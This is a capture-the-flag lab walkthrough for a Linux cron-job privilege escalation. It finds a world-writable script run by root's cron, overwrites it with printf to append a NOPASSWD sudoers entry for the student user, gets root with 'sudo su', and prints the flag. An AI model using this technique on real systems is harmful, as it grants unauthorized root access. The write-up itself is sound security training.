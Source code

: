 # 🔬Cron Jobs

### Lab 1 <a href="#lab-1" id="lab-1"></a>

> 🔬 [Cron Jobs Gone Wild II](https://www.attackdefense.com/challengedetails?cid=77)
>
> * **Cron Jobs** Privilege escalation
> * Already logged on as `student` unprivileged user

```bash
whoami
groups student
ls -l
cat message
```

<figure><img src="../../../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> There is a “message” file in the home directory of student user. Only root user has permissions on this file. So, student user can’t even read it.

```bash
cat /etc/passwd
crontab -l
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> `student` user has no privileges and no scheduled cron jobs

### Cron Jobs Identify <a href="#cron-jobs-identify" id="cron-jobs-identify"></a>

* Find if a file with the same name exists on the system.

```bash
find / -name message
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash">grep -rnw /usr/ -e "/home/student/message"
<strong>    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
</strong></code></pre>

* The file has been copied into the /tmp directory

```bash
cat /tmp/message
    Hey!! you are not root :(
```

* Observe that a file with the same name is present in `/tmp` directory. On checking closely, it is clear that this file is being overwritten every minute.

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* This means there is some script/binary which is copying this file from student home directory to /tmp directory. Search for that script. If this script is doing simple copy operation, it must have source destination of the file in it. Try to locate that by using grep command.

```bash
grep -nri "/tmp/message" /usr/
    /usr/local/share/copy.sh:2:cp /home/student/message /tmp/message
    /usr/local/share/copy.sh:3:chmod 644 /tmp/message
```

* Check `copy.sh` privileges

```bash
ls -al /usr/local/share/copy.sh
	-rwxrwxrwx 1 root root 74 Sep 23  2018 /usr/local/share/copy.sh
```

```bash
cat /usr/local/share/copy.sh
    #! /bin/bash
    cp /home/student/message /tmp/message
    chmod 644 /tmp/message
```

* As the script file is writable by current “student” user, it can be modified to execute our commands. This script is executed by root cron job, so it can do privileged operation.&#x20;
* But, the file can’t be modified directly as there is no text editor on the system.

```bash
vim /usr/local/share/copy.sh
bash: vim: command not found
student@attackdefense:~$ vi /usr/local/share/copy.sh
bash: vi: command not found
student@attackdefense:~$ nano /usr/local/share/copy.sh
bash: nano: command not found
```

### Privesc <a href="#privesc" id="privesc"></a>

* Every user account has read/write/execute permissions on the `copy.sh` script
* The script is writable by the `student` user. Modify the script to execute a command (`e.g.` a_dding **student** to `sudoers` file_).
  * When the script is executed by `root` cron job (_every 1 min for this lab_), it will run commands with pivileged permissions
  * No text editors available in the lab
* Use `printf` to replace the original code with the following lines

```bash
printf '!#bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh
student@attackdefense:~$ cat /usr/local/share/copy.sh
!#bin/bash
echo "student ALL=NOPASSWD:ALL" >> /etc/sudoersstudent@attackdefense:~$
```

* Check current sudoers list

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
```

* There are no new entries. So, wait for 1 minute (i.e. the cron job runs every 1 minute) and check the sudoers list again. This time new entry is there.

```bash
sudo -l
    Matching Defaults entries for student on attackdefense:
        env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
    User student may run the following commands on attackdefense:
        (root) NOPASSWD: /etc/init.d/cron
        (root) NOPASSWD: ALL
```

<figure><img src="../../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Switch to the root user using `sudo su`and collect the flag from the root directory.

```bash
sudo su
root@attackdefense:/home/student# whoami
root
root@attackdefense:/home/student# cd /root
root@attackdefense:~# ls -l
total 4
-rw-r--r-- 1 root root 33 Nov  2  2018 flag
root@attackdefense:~# cat flag
697914df7a07bb9b718c8ed258150164
```

<figure><img src="../../../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `697914df7a07bb9b718c8ed258150164`
{% endhint %}



